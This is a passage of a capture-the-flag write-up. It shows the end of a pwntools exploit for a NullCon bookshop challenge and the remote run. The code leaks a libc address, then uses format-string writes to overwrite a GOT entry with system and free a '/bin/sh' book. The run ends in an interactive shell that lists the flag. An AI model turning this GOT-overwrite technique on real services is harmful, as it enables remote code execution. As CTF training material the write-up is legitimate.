 ```  
print target.recvuntil("\"name\": \"")

leak = target.recvuntil("\"")  
leak = leak.replace("\"", "")  
print "leak is: " + str(leak)  
leak = u64(leak + "\x00"*(8 - len(leak)))

# Subtract the offset to system from puts from the infoleak, to get the libc
address of system  
leak = leak - 0x31580

print "leak is: " + hex(leak)

# do a bit of binary math to get the

part0 = str(leak & 0xffff)  
part1 = str(((leak & 0xffff0000) >> 16))  
part2 = str(((leak & 0xffff00000000) >> 32))

print "part 0: " + hex(int(part0))  
print "part 1: " + hex(int(part1))  
print "part 2: " + hex(int(part2))

# Add the three books to do the format string  
# We need the 0x602028 address still to not cause a segfault when it prints  
# the got address we are trying to overwrite is at 0x602018

addBookSpc("50", "5", p64(0x60201a) + p64(0x602028) + "z"*8 + "%" + part1 +
"x%7$n")  
addBookSpc("50", "5", p64(0x602018) + p64(0x602028) + "z"*8 + "%" + part0 +
"x%7$n")  
addBookSpc("50", "5", p64(0x60201c) + p64(0x602028) + "z"*8 + "%" + part2 +
"x%7$n")

# Print the books to execute the format string write  
target.sendline('3')

# Free the book with "/bin/sh" to pass a pointer to "/bin/sh" to system  
target.sendline('2')  
target.sendline('7')

# Drop to an interactive shell  
target.interactive()  
```

and when we run the remote exploit:

```  
$ python exploit.py  
[+] Opening connection to pwn.ctf.nullcon.net on port 4002: Done  
NullCon Shop  
(1) Add book to cart  
(2) Remove from cart  
(3) View cart  
(4) Check out

. . .

$ w  
18:51:13 up 7 days,  3:10,  0 users,  load average: 0.03, 0.13, 0.07  
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  
$ ls  
challenge  
flag  
```
